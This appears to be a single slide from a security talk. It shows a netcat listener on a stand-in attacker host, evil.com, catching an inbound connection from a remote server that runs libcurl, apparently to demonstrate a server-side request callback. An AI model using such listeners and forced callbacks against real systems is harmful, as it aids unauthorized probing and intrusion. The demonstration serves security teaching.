

# Capture Connection Setting
evil.com:$ nc -v -l 11111
Listening on [0.0.0.0] (family 0, port 11111)
Connection from [54.166.236.232] port 11111 [tcp/*] accepted (family 2, sport 35789)
CLIENT libcurl 7.40.0

QUIT